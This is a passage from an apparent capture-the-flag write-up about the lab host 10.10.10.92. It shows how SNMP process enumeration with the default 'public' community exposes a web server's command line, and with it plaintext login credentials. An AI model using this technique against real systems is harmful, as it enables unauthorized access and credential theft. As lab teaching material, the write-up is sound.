 ```

root@kali# snmpwalk -v 2c -c public 10.10.10.92 hrSWRunName
HOST-RESOURCES-MIB::hrSWRunName.1 = STRING: "systemd"
HOST-RESOURCES-MIB::hrSWRunName.2 = STRING: "kthreadd"
HOST-RESOURCES-MIB::hrSWRunName.4 = STRING: "kworker/0:0H"
HOST-RESOURCES-MIB::hrSWRunName.6 = STRING: "mm_percpu_wq"
HOST-RESOURCES-MIB::hrSWRunName.7 = STRING: "ksoftirqd/0"
HOST-RESOURCES-MIB::hrSWRunName.8 = STRING: "rcu_sched"
HOST-RESOURCES-MIB::hrSWRunName.9 = STRING: "rcu_bh"
HOST-RESOURCES-MIB::hrSWRunName.10 = STRING: "migration/0"
HOST-RESOURCES-MIB::hrSWRunName.11 = STRING: "watchdog/0"
HOST-RESOURCES-MIB::hrSWRunName.12 = STRING: "cpuhp/0"
...[snip]...

```

#### Find Web Credentials via Process List

One thing I wanted to check out was the python process that’s hosting the webserver on port 3366. I’ll start by finding the ID of that process:

```

root@kali# snmpwalk -v 2c -c public 10.10.10.92 hrSWRunName | grep python
HOST-RESOURCES-MIB::hrSWRunName.617 = STRING: "python"

```

Now, I’ll ask snmp for all of the entries in the hrSWRunTable, and grep for 617:

```

root@kali# snmpwalk -v 2c -c public 10.10.10.92 hrSWRunTable | grep 617
HOST-RESOURCES-MIB::hrSWRunIndex.617 = INTEGER: 617
HOST-RESOURCES-MIB::hrSWRunName.617 = STRING: "python"
HOST-RESOURCES-MIB::hrSWRunID.617 = OID: SNMPv2-SMI::zeroDotZero
HOST-RESOURCES-MIB::hrSWRunPath.617 = STRING: "python"
HOST-RESOURCES-MIB::hrSWRunParameters.617 = STRING: "-m SimpleHTTPAuthServer 3366 loki:godofmischiefisloki --dir /home/loki/hosted/"
HOST-RESOURCES-MIB::hrSWRunType.617 = INTEGER: application(4)
HOST-RESOURCES-MIB::hrSWRunStatus.617 = INTEGER: runnable(2)

```

I can see the hrSWRunParameters, which gives me that command line parameters called.

[SimpleHTTPAuthServer](https://github.com/tianhuil/SimpleHTTPAuthServer) seems to take positional arguments of port and key:

```

root@kali# python -m SimpleHTTPAuthServer -h
usage: SimpleHTTPAuthServer [-h] [--dir DIR] [--https] port key

positional arguments:
  port        port number
  key         username:password

optional arguments:
  -h, --help  show this help message and exit
  --dir DIR   directory
  --https     Use https

```
